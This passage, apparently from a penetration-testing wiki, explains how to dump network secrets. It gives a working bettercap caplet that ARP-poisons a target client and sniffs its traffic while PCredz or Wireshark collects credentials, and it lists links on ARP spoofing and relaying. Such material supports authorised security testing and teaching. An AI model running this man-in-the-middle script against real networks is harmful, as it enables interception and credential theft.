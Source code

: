 {% tab title="Dumping network secrets" %}
Start [PCredz](https://github.com/lgandx/PCredz) or Wireshark then start the poisoning attack

{% code title="spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP poisoning
set arp.spoof.targets $client_ip
set arp.spoof.internal true
set arp.spoof.fullduplex true

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
arp.spoof on
net.sniff on
```
{% endcode %}
{% endtab %}
{% endtabs %}

<details><summary>Alternative using <code>arpspoof</code> tool - Firewall Bypass scenario</summary></details>

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}

{% embed url="https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html" %}
